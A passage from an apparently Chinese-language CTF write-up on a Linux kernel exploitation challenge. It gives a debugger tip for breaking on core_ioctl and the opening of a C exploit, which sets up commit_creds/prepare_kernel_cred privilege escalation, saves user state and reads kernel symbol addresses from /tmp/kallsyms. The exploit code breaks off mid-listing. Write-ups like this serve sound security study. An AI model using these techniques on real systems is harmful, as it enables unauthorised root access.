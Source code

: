 如果要 debug `core_ioctl` 函数，只需要搜索 该函数的前几个字节，然后对该地址打断点即可. 如下所示

```
search -t qword 0x48536677889bfe81
```

![qwb](/image/kernelpwn/13.png)  

payload:  
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <string.h>
#include <stdlib.h>
#include <arpa/inet.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/socket.h>

#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) NULL;
void (*commit_creds)(void*) KERNCALL = (void*) NULL;

unsigned long long original_base = 0xffffffff81000000;
unsigned long long user_cs, user_ss, user_rflags, user_sp;
unsigned long long base_addr, canary;

//----------------- 自定义函数 Start -----------------
//----------------- 自定义函数 End   -----------------

void* get_address(char* address) {
	char str[256];
	char ch;
	char hex_num[256] = {0};
	
	sprintf(str, "cat /tmp/kallsyms | grep '%s' | awk '{print $1}' > .exp_cache", address);
	int ret = system(str);
	
	FILE *fp1 = fopen("./.exp_cache", "r");
	int i = 0;
	while((ch=fgetc(fp1)) != EOF) {
		if(ch == '\n' || ch == 0){ break; }
		hex_num[i ++] = ch;
	}
	fclose(fp1);
	return (void *) strtoull(hex_num, NULL, 16);
}

void save_stat() {
```